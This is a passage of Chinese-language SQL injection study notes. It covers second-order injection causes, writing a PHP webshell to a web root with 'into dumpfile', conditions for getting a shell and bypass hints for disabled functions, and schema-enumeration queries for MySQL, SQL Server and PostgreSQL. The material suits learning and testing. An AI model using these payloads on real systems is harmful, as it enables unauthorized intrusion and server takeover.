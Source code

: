 **原因：**
- 对存入的数据没有进行检查
- 对从数据库中取出来的数据信任，直接使用

**举例：**



## sql注入写文件用的函数？

- select '***' into outfile '路径'
- select '***' into dumpfile '路径'

eg：select '一句话木马' into dumpfile 'd:\\wwwroot\baidu.com\nvhack.php';

## sql注入写shell的条件？
- 用户权限
- 目录读写权限
- 防止命令执行：disable_functions，禁止了disable_functions=phpinfo,exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source，但是可以用dl扩展执行命令或者ImageMagick漏洞 https://www.waitalone.cn/imagemagic-bypass-disable_function.html
- open_basedir: 将用户可操作的文件限制在某目录下



## 不同数据库获取数据信息的过程
  **1.mysql数据库**
  - 获取数据库  
    - select database()
    - show databases
    - select schema_name from information_schema.schemata
  - 获取数据表  
    - select group_concat(table_name) from information_schema.tables where table_schema='库名'
    - 当information被过滤，Mysql 5.6以上版本，还存在两张表 innodb_table_stats和innodb_index_stats
      - select group_concat(table_name) from mysql.innodb_table_stats/innodb_index_stats where database_name=database();
  - 获取列名
    - select group_concat(column_name) from information_schema.columns where table_name='库名'
  
  **2.SQL Server**
  - 获取数据库名
    - SELECT Name FROM Master.SysDatabases ORDER BY Name
  - 获取数据表  
    - SELECT Name FROM DatabaseName.SysObjects Where XType='U' ORDER BY Name 
    - (XType='U' 表示所有用户表)
    - (XType='S' 表示所有系统表)
  - 获取列名
    - SELECT Name FROM SysColumns WHERE id=Object_Id('TableName')
  
  **3.POSTSQL**
  - 获取数据库名
    -  SELECT datname FROM pg_database;
  - 获取数据表  
    -  SELECT tablename FROM pg_tables;   
  - 获取列名
    -  select column_name from information_schema.columns where table_name='表名'
